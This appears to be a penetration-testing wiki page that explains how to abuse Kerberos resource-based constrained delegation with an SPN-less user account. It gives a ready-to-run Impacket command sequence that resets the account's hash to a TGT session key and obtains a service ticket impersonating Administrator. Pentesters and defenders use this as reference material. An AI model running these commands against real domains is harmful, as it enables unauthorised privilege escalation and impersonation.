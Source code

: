 1. Obtain a TGT for the SPN-less user allowed to delegate to a target and retrieve the TGT session key.
2. Change the user's password hash and set it to the TGT session key.
3. [Combine S4U2self and U2U](../#s4u2self-+-u2u) so that the SPN-less user can obtain a service ticket to itself, on behalf of another (powerful) user, and then proceed to S4U2proxy to obtain a service ticket to the target the user can delegate to, on behalf of the other, more powerful, user.
4. [Pass the ticket](../ptt.md) and access the target, as the delegated other

> [!NOTE]
> While this technique allows for an abuse of the RBCD primitive, even when the [`MachineAccountQuota`](../../builtins/machineaccountquota.md) is set to 0, or when the absence of LDAPS limits the creation of computer accounts, it requires a sacrificial user account. In the abuse process, the user account's password hash will be reset with another hash that has no known plaintext, effectively preventing regular users from using this account.

::: tabs

=== UNIX-like

From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket) (Python) scripts can be used to operate that technique. At the time of writing, September 7th 2022, some of the tools used below are in Pull Requests still being reviewed before merge ([#1201](https://github.com/SecureAuthCorp/impacket/pull/1201) and [#1202](https://github.com/SecureAuthCorp/impacket/pull/1202)).


```bash
# Obtain a TGT through overpass-the-hash to use RC4
getTGT.py -hashes :$(pypykatz crypto nt 'SomePassword') 'domain'/'controlledaccountwithoutSPN'

# Obtain the TGT session key
describeTicket.py 'TGT.ccache' | grep 'Ticket Session Key'

# Change the controlledaccountwithoutSPN's NT hash with the TGT session key
changepasswd.py -newhashes :TGTSessionKey 'domain'/'controlledaccountwithoutSPN':'SomePassword'@'DomainController'

# Obtain the delegated service ticket through S4U2self+U2U, followed by S4U2proxy (the steps could be conducted individually with the -self and -additional-ticket flags)
KRB5CCNAME='TGT.ccache' getST.py -u2u -impersonate "Administrator" -spn "host/target.domain.com" -k -no-pass 'domain'/'controlledaccountwithoutSPN'

# The password can then be reset to its old value (or another one if the domain policy forbids it, which is usually the case)
smbpasswd.py -hashes :TGTSessionKey -newhashes :OldNTHash 'domain'/'controlledaccountwithoutSPN'@'DomainController'
```


After these steps, the final service ticket can be used with [Pass-the-ticket](../ptt.md).


=== Windows

From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to operate the technique.

The steps detailed in [PR #137](https://github.com/GhostPack/Rubeus/pull/137) can be followed.
